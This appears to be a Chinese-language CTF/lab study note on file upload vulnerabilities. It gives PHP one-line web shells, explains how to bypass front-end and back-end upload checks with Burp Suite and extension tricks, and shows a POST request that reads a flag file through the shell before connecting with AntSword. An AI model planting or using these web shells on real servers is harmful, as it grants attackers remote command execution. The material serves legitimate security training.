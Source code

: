 ## 文件上传漏洞

利用木马:

```php
<?php eval ($_POST['cmd']); ?> // virus.php
```



### 绕过

检查分为后端验证与前端验证两种.

前端验证一般包含于Javascript中, 后端验证一般包含于Java或者php中.

#### 前端

控制台网络窗口, 若看不到相应的收发包记录即判定为前端验证.

![image-20240401135704994](C:\Users\lenovo\AppData\Roaming\Typora\typora-user-images\image-20240401135704994.png)

可在调试器窗口查看前端代码:

![](C:\Users\lenovo\AppData\Roaming\Typora\typora-user-images\image-20240401105957061.png)





<img src="C:\Users\lenovo\AppData\Roaming\Typora\typora-user-images\image-20240401110042075.png" alt="image-20240401110042075" style="zoom:50%;" />

由于在向服务器发起下一次请求之前，前端的静态脚本不会被重新加载。

故我们可以在控制台重写JavaScript代码.

![image-20240401110511802](C:\Users\lenovo\AppData\Roaming\Typora\typora-user-images\image-20240401110511802.png)

我们考虑将$virus.php$改为$virus.jpg$,先绕过前端验证,考虑用burpsuite拦截:

![image-20240401111317227](C:\Users\lenovo\AppData\Roaming\Typora\typora-user-images\image-20240401111317227.png)

为了使其在服务器端可执行, 我们需要在拦截的包中改回后缀php:

![image-20240401111410317](C:\Users\lenovo\AppData\Roaming\Typora\typora-user-images\image-20240401111410317.png)

接着拿到木马文件在服务器端的存储位置:

![image-20240401111550836](C:\Users\lenovo\AppData\Roaming\Typora\typora-user-images\image-20240401111550836.png)

![image-20240401111618365](C:\Users\lenovo\AppData\Roaming\Typora\typora-user-images\image-20240401111618365.png)

#### 后端绕过

以https://buuoj.cn/challenges#%E6%9E%81%E5%AE%A2%E5%A4%A7%E6%8C%91%E6%88%98%202019Upload 为例.

我们随便上传个.txt，发现有收发包，即可判断存在后端验证.

![image-20240401140702798](C:\Users\lenovo\AppData\Roaming\Typora\typora-user-images\image-20240401140702798.png)

接着把照片木马上传, 在burpsuite上截包然后改后缀, 发现回显可以判断出<?符号
![image-20240401141917942](C:\Users\lenovo\AppData\Roaming\Typora\typora-user-images\image-20240401141917942.png)

我们考虑注入phtml，编写脚本:

```php+HTML
<script language='php'>@eval($_POST['cmd']);</script>

```

同样使用burp截包, 并在包里改后缀:

![image-20240401142334040](C:\Users\lenovo\AppData\Roaming\Typora\typora-user-images\image-20240401142334040.png)

发现后端对图片内容进行了检查.

![image-20240401142423368](C:\Users\lenovo\AppData\Roaming\Typora\typora-user-images\image-20240401142423368.png)

改写图片内容:

![image-20240401142547375](C:\Users\lenovo\AppData\Roaming\Typora\typora-user-images\image-20240401142547375.png)

点击forword,成功上传.

我们在AntSword中测试链接:

![image-20240401143225646](C:\Users\lenovo\AppData\Roaming\Typora\typora-user-images\image-20240401143225646.png)

接着注入，查看服务器端内容即可.

![image-20240401143305121](C:\Users\lenovo\AppData\Roaming\Typora\typora-user-images\image-20240401143305121.png)

#### 利用

我们构造数据包:

#### POST参数

```http
POST /upload-labs/upload/virus.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:124.0) Gecko/20100101 Firefox/124.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 63

cmd=echo file_get_contents("../../labs/UploadAttack/flag.txt");
```

回显了flag:

![image-20240401112741187](C:\Users\lenovo\AppData\Roaming\Typora\typora-user-images\image-20240401112741187.png)

利用蚁剑AntSword实现批量注入:

我们上传木马后, 通过AntSword 根据POST关键字实现连接:
![image-20240401115227742](C:\Users\lenovo\AppData\Roaming\Typora\typora-user-images\image-20240401115227742.png)

利用AntSword查看服务器中的内容:

![image-20240401115257963](C:\Users\lenovo\AppData\Roaming\Typora\typora-user-images\image-20240401115257963.png)

注意AntSword连接密码只能使用POST参数, 且服务器端木马必须是php脚本.
